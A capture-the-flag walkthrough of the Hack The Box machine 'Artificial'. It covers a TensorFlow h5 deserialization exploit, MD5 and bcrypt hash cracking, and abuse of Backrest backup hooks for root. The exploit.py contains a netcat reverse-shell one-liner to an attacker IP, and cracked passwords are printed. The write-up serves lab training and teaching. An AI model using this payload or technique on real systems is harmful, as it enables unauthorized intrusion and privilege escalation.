






# Hack The Box - Artificial (Easy)

Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Artificial**. This machine starts with an AI website where I can upload models that are run with TensorFlow. I'll exploit a deserialization vulnerability in how TensorFlow handles h5 files to get RCE and a foothold as `app`. I'll find hashes in the SQLite database and crack one to pivot to `gael`. That user has access to an instance of Backrest running on localhost. I'll find the config, crack the bcrypt hash, and then use the Backrest web UI to execute commands as root and read the final flag.

## Recon

I started with a full port scan to see what services were exposed on the target.

```bash
nmap -p- --min-rate 10000 10.129.234.130
```

The scan revealed two open ports:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Besides the usual Linux port 22 there's only a HTTP server listening. nmap already identified the redirect to `artificial.htb`, therefore I'll add this to my `/etc/hosts` file.

### Execution

Browsing to port 80, I'm greeted by a web page that claims to revolutionize my AI experience. Apparently it lets users build, test and deploy their AI models, so I register a new account and use it to login.



The dashboard consists of a file upload for my model and two links. One to the `requirements.txt`, containing all libraries for Python to build the model, and another one for the `Dockerfile` that installs those requirements in a container. Both list `tensorflow-cpu` in version 2.13.1 as a requirement.

### Dockerfile

```dockerfile
FROM python:3.8-slim
 
WORKDIR /code
 
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*
 
RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
 
ENTRYPOINT ["/bin/bash"]
```

A search for known vulnerabilities in this exact version comes up empty, but looking for general ways to exploit TensorFlow returns a blog post with an accompanying proof of concept https://mastersplinter.work/research/tensorflow-rce/ POC https://github.com/Splinter0/tensorflow-rce. Before running the exploit from the PoC, I install the requirements in a virtual environment with `uv`.

```bash
$ uv venv --python 3.8
$ source .venv/bin/activate
$ uv pip install "tensorflow-cpu==2.13.1"
```

Then I run the exploit code and that produces an `exploit.h5` file in my current directory.

### exploit.py

```python
import tensorflow as tf
 
def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc Attacker-IP 2121 >/tmp/f")
    return x
 
model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

After uploading the model I can view the predictions based on that model and as soon as I click the link there's a callback on my listener as user `app`.



## Shell as gael

Since the web application has to store the user information somewhere, I search for a database and quickly find a `sqlite3` file called `users.db` in `~/app/instance` that holds the data.

```bash
$ sqlite3 ~/app/instance/users.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|ryuki|ryuki@artificial.htb|a0f6d1ed43eedd9e4c68c435b1124b24
```

The file `app.py` shows references to MD5 and hashcat can quickly recover the plain text password for `gael` and `royer`. The user `gael` is the only other local user with a shell and I can switch to this account with password `mattp005numbertwo` to collect the first flag.

## Privilege Escalation

Even though `gael` can not run any commands as sudo, the account is still part of non-default group called `sysadm`. Searching for files owned by this group finds a single file that seems to be a backup of backrest, a web UI and orchestrator for restic.

```bash
$ id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
 
$ find / -group sysadm 2>/dev/null
/var/backups/backrest_backup.tar.gz
```

I copy the archive to `/dev/shm` and extract the contents with `tar`.

```bash
$ cp /var/backups/backrest_backup.tar.gz /dev/shm
 
$ cd /dev/shm
 
$ tar xvf backrest_backup.tar.gz 
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

The `config.json` contains a username, `backrest_root`, and the associated bcrypt hash as base64 string.

### config.json

```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaVi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

Decoding the base64 returns the actual bcrypt hash. Once again hashcat is able to crack the hash, this time with mode 3200 and return the password `!@#$%^`.

```bash
$ base64 -d <<< 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaVi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP'
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
 
$ hashcat -m 3200 \
          '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' \
          /usr/share/wordlists/rockyou.txt
--- SNIP ---
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
 
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP5...Zz/0QO
--- SNIP ---
```

The documentation for backrest specifies the default port for the web server to listen on as 9898 and that port is actually listening on localhost. In order to access it I forward that port to my local device with SSH.

Backrest is a web-based backup management panel built on top of restic. you can run scripts through backup hooks/scripts the scritp run on the Backrest server or inside the Backrest Docker container



As hoped, the found credentials work and I get access to the dashboard. So far nothing is configured and I start by creating a new repository since this is a requirement for creating a backup plan. I pick generic name and use `/tmp` as the repository URL with a generated password.



After setting up the repository I create a new plan, specify the repository I've just created, and add a new hook that fires on `CONDITION_SNAPSHOT_START`. There I add a bash one-liner that calls back with a shell.



Next I select the plan from the sidebar and start a new run with Backup now. As soon as I do so I get a new callback on my listener as root and can read the final flag.

## Attack Path

- **Scan the host** - identify SSH and HTTP ports.
- **Enumerate the website** - discover the AI model upload feature and TensorFlow version.
- **Abuse TensorFlow** - craft a malicious h5 file with a Lambda layer payload.
- **Upload the model** - trigger RCE when predictions are requested.
- **Get foothold** - receive callback as `app` user.
- **Enumerate the application** - find the SQLite database with user hashes.
- **Crack MD5 hashes** - recover passwords for `gael` and `royer`.
- **Move to gael** - use the cracked password `mattp005numbertwo` to switch users.
- **Read user flag** - get `user.txt` from `/home/gael`.
- **Enumerate privileges** - find `gael` is in the `sysadm` group.
- **Find Backrest backup** - locate the tar.gz owned by `sysadm`.
- **Extract the backup** - find the `config.json` with the bcrypt hash.
- **Crack bcrypt hash** - decode base64 and crack with hashcat to get `!@#$%^`.
- **Access Backrest UI** - SSH port forward port 9898 and login as `backrest_root`.
- **Create malicious plan** - add a hook on `CONDITION_SNAPSHOT_START` with a reverse shell.
- **Trigger backup** - run the backup plan to get a callback as root.
- **Read root flag** - complete the machine.
